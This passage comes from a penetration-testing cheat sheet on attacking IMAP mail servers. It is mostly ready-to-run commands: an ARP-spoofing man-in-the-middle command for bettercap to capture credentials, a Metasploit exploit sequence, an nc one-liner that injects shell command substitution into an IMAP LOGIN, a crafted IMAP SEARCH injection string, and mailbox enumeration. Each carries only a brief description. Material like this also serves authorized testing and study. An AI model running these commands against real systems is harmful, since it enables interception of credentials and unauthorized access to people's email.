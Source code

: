#### Man-in-the-Middle (MITM) Attack

*   **Tool:** \[\[BetterCap Cheat Sheet]]

    ```bash
    bettercap -iface <interface> -T <target_ip> --proxy
    ```
* **Description:** Intercept and analyze traffic between the client and server, potentially capturing credentials by performing an ARP spoofing attack.

### Privilege Escalation

#### Exploiting Vulnerabilities for Privilege Escalation

*   **Tool:** \[\[Metasploit]]

    ```bash
    use exploit/linux/imap/kerio_auth_bypass
    set RHOSTS <target_ip>
    run
    ```
* **Description:** Exploit specific vulnerabilities in the IMAP service to escalate privileges.

### Internal Reconnaissance

#### IMAP Injection

*   **Tool:** \[\[NetCat]]

    ```bash
    echo 'A1 LOGIN "`/bin/ls`" "`/bin/ls`"' | nc <target_ip> 143
    ```

\


*   **Tool:** \[\[IMAP]]

    ```bash
    A001 SEARCH TEXT "a@b.com) (BOF"
    ```
* **Description:** Exploit vulnerabilities in IMAP commands by injecting malicious input. IMAP injection vulnerabilities can occur when user input is not properly sanitized before being used in IMAP commands. This can allow an attacker to manipulate IMAP commands and potentially gain unauthorized access to email data.
  1. Attacker crafts a malicious email address with embedded IMAP commands.
  2. The email address is used in an IMAP command without proper sanitization.
  3. The embedded IMAP commands are executed by the server, potentially giving the attacker access to email data.

#### Mailbox Enumeration

*   **Tool:** \[\[IMAP]], \[\[Custom Scripts]]

    ```bash
    A001 LIST "" "*"
    ```
* **Description:** Enumerate all mailboxes available to a compromised user account.
